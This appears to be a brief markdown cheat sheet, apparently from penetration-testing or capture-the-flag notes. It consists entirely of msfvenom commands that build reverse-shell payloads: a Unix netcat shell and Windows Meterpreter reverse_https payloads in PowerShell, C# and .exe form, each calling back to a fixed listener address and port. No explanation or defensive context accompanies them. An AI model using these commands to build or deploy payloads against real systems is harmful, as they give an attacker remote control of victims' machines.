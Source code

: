 ### Netcat

```bash
sudo msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.127 lport=4444
```

## PowerShell

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=443 -f ps1
```

### Csharp

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=443 -f csharp
```

### Exe

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=443 -f exe > shell.exe
```
